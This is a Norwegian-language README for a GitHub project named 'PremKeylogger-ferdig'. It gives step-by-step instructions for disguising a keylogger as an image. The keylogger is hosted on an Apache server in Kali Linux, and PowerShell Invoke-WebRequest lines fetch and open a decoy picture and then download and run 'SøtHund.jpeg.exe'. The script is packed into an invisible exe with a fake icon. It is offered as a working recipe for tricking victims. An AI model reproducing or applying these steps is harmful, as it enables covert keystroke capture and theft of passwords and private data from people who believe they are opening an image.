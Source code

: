 # PremKeylogger-ferdig

Verktøy:
-Hyper-V manager
-Winscp
-Kali linux
-bat to exe converter
-2 bilder
-1 ICO (ikon)

---------------------------------------------------------------------------------------------------------------------------------------------------------------|

Koden ble skrevet i Visual studio, hvordan du implenterer koden i et "bilde" er gjort i Kali Linux.

--------------------------------------------------------------------------------------------------------------------------------------------|

For å få "injecte" keyloggeren inn i et "bilde" må du lage apache2 web server for å lagre din keylogger inni den.

--------------------------------------------------------------------------------------------------------------------------------------------|

For å gjøre det trenger du Kali linux. Det er for å sette opp en Apache web server. Du må også overføre din keylogger
til din Kali linux. Du trenger "Winscp" for å gjøre dette.

--------------------------------------------------------------------------------------------------------------------------------------------|

For å sjekke at din Apache2 web server er oppe kan du skrive inn din kali linux sin ip adresse, kommando for å få ip adresse: "ip a".
Når du har Ip adressen skriver du inn i google chrome "http://DIN IP ADRESSE"

--------------------------------------------------------------------------------------------------------------------------------------------|

For å legge keylogger filen inn på din apache2 web server går du inn på kali linux:
-> "Open folder", øverst til venstre -> finn keyloggeren -> høyreklikk -> cut -> file system - Var -> www -> html -> høyreklikk -> paste.

--------------------------------------------------------------------------------------------------------------------------------------------|

Finn et passende bilde som har en URl som slutter på .png, .jpg eller .jpeg som for eksempel:
https://cdn.discordapp.com/attachments/669940183805984806/960943869988593764/20220405_184733.jpg
Så trenger vi URL til keyloggeren, du finner dette ved å gå inn på din Apache2 webs server, høyreklikke på filen -> Copy

--------------------------------------------------------------------------------------------------------------------------------------------|
Deretter gå inn på powershell på din vanlige pc. NB! gjør dette på notepad først. 
Skriv inn:
cd %TEMP%
Invoke-webRequest 'bilde URL' -OutFile passende navn.jpg
passende navn.png
Invoke-webRequest 'fil IRL' -OutFIle passende navn.exe (eller .bat)

--------------------------------------------------------------------------------------------------------------------------------------------|

Det kan se sånn ut:

cd %TEMP%
Invoke-webRequest 'https://cdn.discordapp.com/attachments/669940183805984806/960943869988593764/20220405_184733.jpg' -OutFile By.jpg
By.jpg
Invoke-webRequest 'http://192.168.50.221/S%c3%b8tHund.jpeg.exe' -OutFile SøtHund.jpeg.exe
SutHund.jpeg.exe

--------------------------------------------------------------------------------------------------------------------------------------------|

Lagre notepad filen der du kan finne den. Filtypen skal være "all files". Gi filen et passende navn som slutter på .exe. feks "SøtHunnd.exe".

--------------------------------------------------------------------------------------------------------------------------------------------|

Copy paste teksten på powershell, start den. Nå har vi en fil som gjør at hvis brukeren trykker på filen starter den programmet, ved at den installerer
et bilde, og hviser den. For å gi den et ikon trenger vi bat to exe converter. 
Dra filen inn på bat to exe converter -> Icon -> trykk på de 3 prikkene -> finn Ico filen -> exe format 32 bit | Windows (Invisible) -> Convert ->
navngi den et passende navn -> save

--------------------------------------------------------------------------------------------------------------------------------------------|

